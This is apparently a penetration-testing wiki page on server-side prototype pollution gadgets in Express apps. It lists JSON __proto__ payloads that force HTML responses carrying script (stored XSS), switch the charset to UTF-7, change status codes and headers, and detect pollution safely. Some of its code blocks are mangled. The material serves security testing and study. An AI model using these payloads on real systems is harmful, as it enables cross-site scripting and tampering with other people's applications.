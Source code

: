 # Express Prototype Pollution Gadgets


## Serve XSS responses

**For further details** [[https://portswigger.net/research/server-side-prototype-pollution|**take a look to the original reserach**]]

### Change JSON content-type to HTML

In an Express app using a **JSON content type response** and reflecting a JSON:

```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
  _.merge({}, req.body)
  res.send(req.body)
})
```
```
In these cases XSS isn't normally possible with a JSON content type. However, with prototype pollution we can **confuse Express to serve up an HTML response.** This vulnerability relies on the application using **`res.send(obj)`** and using the body parser with the application/json content type.

```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
```
By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

It's possible to make express **render UTF-7 content with**:

```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
```
## Safe Scanning Techinques

### JSON spaces

The following PP will make attributes inside a JSON to have an extra space which won't break the functionality:

```json
{ "__proto__": { "json spaces": " " } }
```
```
Then a reflected JSON will looks like:

```json
{"foo":  "bar"} -- Note the extra space
```
```
### Exposed Headers

The following PP gadget will make the server send back the HTTP header: **`Access-Control-Expose_headers: foo`**

```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
```
It requires the **CORS module to be installed**

### **OPTIONS Method**

With the following payload, it's possible to **hide a method from an OPTIONS response**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
```
### **Status**

It's possible to change the **returned status code** using the following PP payload:

```json
{ "__proto__": { "status": 510 } }
```
```
### Error

When you assign to a prototype with a primitive such as a string, it produces a **no-op operation since the prototype has to be an object**. If you attempt to assign a prototype object to the `Object.prototype` itself, this will **throw an exception**. We can use these two behaviours to **detect if prototype pollution was successful**:

```javascript
;({}).__proto__.__proto__ = {}(
  //throws type exception
  {}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
```
### Reflected Value

When an application includes an object in its response, creating an attribute with an **unusual name alongside `__proto__`** can be insightful. Specifically, if **only the unusual attribute is returned** in the response, this could indicate the application's vulnerability:

```json
{ "unusualName": "value", "__proto__": "test" }
```
```
Moreover, in scenarios where a library like Lodash is employed, setting a property both via prototype pollution (PP) and directly inside the object offers another diagnostic approach. If such a property is omitted from the response, it suggests that Lodash is verifying the existence of the property in the target object before merging:

```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
```
## Misc

### Allow Dots

There is an option in Express that allows you to **create objects from query string parameters**.\
You could definitely use it in a bug **chain** to exploit a **prototype pollution vulnerability**.

```json
{ "__proto__": { "allowDots": true } }
```
```
**`?foo.bar=baz` create an object in Node.**

## References

- [[https://portswigger.net/research/server-side-prototype-pollution|https://portswigger.net/research/server-side-prototype-pollution]]



